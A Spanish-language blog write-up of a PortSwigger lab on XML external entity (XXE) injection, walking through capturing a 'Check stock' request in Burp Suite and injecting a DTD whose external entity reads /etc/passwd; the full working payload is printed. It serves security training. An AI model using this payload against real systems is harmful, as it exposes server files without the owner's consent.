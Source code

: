 ```yaml
---
title: XXE Injection Lab 1
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XXE Injection
tags:
  - XXE Injection
  - Exploiting XXE using external entities to retrieve files
image:
  path: /assets/img/XXE-Injection-Lab-1/Portswigger.png
---
```


## Skills

- Exploiting XXE using external entities to retrieve files

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` tiene una `función` llamada `Check stock` que analiza entradas XML y devuelve cualquier valor inesperado en la respuesta. Para resolver el laboratorio, hay que `inyectar` una entidad externa XML (XXE) para `obtener` el contenido del archivo `/etc/passwd`

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-1/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-1/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se está tramitando un `XML`

![](/assets/img/XXE-Injection-Lab-1/image_3.png)

Vamos a insertar un `DTD (Document Type Definition)` y a usar el wrapper file para `cargar` el archivo `/etc/passwd`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Si `enviamos` la `petición` con este `payload` obtendremos el `/etc/passwd`

![](/assets/img/XXE-Injection-Lab-1/image_4.png)
